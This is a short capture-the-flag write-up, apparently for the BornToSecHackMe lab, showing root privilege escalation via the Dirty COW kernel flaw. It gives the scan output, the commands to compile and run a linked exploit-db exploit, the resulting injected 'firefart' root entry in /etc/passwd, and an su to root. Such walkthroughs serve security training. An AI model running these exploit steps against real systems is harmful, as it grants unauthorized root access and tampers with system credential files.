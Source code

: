 # Write Up 2

For the next `exploit` we want to find `vulnerabilties` about the `kernel` verion, `CVE`

We will use a `DirtyScript` but for first lets check if our machien is exploitable:

We use this script:

>https://github.com/aishee/scan-dirtycow/blob/master/dirtycowscan.sh

And here the output:

```
zaz@BornToSecHackMe:/var/crash# ./DirtyScan.sh 
Your kernel is 3.2.0-91-generic-pae which IS vulnerable.
It is recommends that you update your kernel. Alternatively, you can apply partial
mitigation described at https://access.redhat.com/security/vulnerabilities/2706661 .
The kernel available to update to is 3.2.0-91-generic IS also vulnerable.
```

So know we have to use this script:

>https://www.exploit-db.com/exploits/40839

```
zaz@BornToSecHackMe:/var/crash$ gcc dirty.c -pthread -lcrypt -o dirty
zaz@BornToSecHackMe:/var/crash$ ./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 
Complete line:
firefart:fiRbwOlRgkx7g:0:0:pwned:/root:/bin/bash
```

In the `/etc/passwd` file we can see a `new user`:

```
zaz@BornToSecHackMe:/var/crash$ cat /etc/passwd
firefart:fiRbwOlRgkx7g:0:0:pwned:/root:/bin/bash
```

So try to connect with:

>login: `firefart` password: `123` (this is the password entered with the previous script)

```
zaz@BornToSecHackMe:/var/crash$ su firefart
Password: 
firefart@BornToSecHackMe:/var/crash# id
uid=0(firefart) gid=0(root) groups=0(root)
```

And GOOD JOB! We are root.
